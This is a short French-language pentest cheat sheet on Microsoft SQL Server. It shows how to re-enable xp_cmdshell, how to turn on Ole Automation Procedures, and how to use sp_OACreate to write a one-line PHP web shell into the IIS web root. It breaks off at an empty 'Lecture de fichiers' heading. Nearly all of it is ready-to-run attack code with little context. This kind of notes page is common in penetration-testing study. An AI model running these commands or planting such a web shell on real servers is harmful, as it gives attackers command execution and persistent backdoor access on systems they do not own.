 ### SQLCMD
##### Si xp_cmdshell n'est pas activé, possible de l'activer si privilèges appropriés

depuis la db
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

#### Ecriture de fichiers ([Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option))

activer Ole Automation Procedures
```mssql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```

Créer un fichier

```mssql
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```
#### Lecture de fichiers

